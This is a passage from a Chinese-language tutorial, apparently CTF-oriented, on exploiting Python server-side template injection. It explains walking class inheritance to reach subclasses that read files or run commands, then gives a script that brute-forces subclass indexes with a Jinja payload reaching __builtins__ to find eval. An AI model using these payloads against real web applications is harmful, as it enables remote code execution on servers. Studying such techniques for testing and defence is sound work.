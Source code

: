 

### ③利用方法

现在对于上述指令可能有点懵逼。

我们可以把SSTI做的事情抽象成下面的代码

```python
class O: pass # O 是基类，A、B、F、G 都直接或间接继承于它
# 继承关系 A -> B -> O
class B(O): pass
class A(B): pass

# F 类继承自 O，拥有读取文件的方法
class F(O): def read_file(self, file_name): pass

# G 类继承自 O，拥有执行系统命令的方法
class G(O): def exec(self, command): pass
```

假如我们现在拿到了A，想读取目录下的文件，那么我们就需要去找F和G。那问题就变成了怎么找F和G。

**找对象A的类 - 类A** -> **找类A的父亲 - 类B** -> **找祖先/基类 - 类O** -> **便利祖先下面所有的子类** -> **找到可利用的类 类F 类G**-> **构造利用方法**-> **读写文件/执行命令**

然后我们可以看到一些基本步骤就是

```python
>>>print(A.__class__) # 使用 __class__ 查看类属性
<class '__main__.A'>
>>> print(A.__class__.__base__) # 使用 __base__ 查看父类
<class '__main__.B'>
>>> print(A.__class__.__base__.__base__)# 查看父类的父类 (如果继承链足够长，就需要多个base)
<class '__main__.O'>
>>>print(A.__class__.__mro__) # 直接使用 __mro__ 查看类继承关系顺序
(<class '__main__.A'>, <class '__main__.B'>, <class '__main__.O'>, <class 'object'>)
>>>print(A.__class__.__base__.__base__.__subclasses__()) # 查看祖先下面所有的子类（这里假定祖先为O）
[<class '__main__.B'>, <class '__main__.F'>, <class '__main__.G'>]
```

这里有两个构建payload的脚本，实在是优秀，放在这里

### Ⅰ.找序号的脚本

```
# 使用 python 脚本 用于寻找序号
url = "http://url/level/1"
def find_eval(url):
    for i in range(500):
        data = {
            'code': "{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}",
        }
        res = requests.post(url, data=data, headers=headers)
        if 'eval' in res.text:
            print(data)
find_eval(url)
```
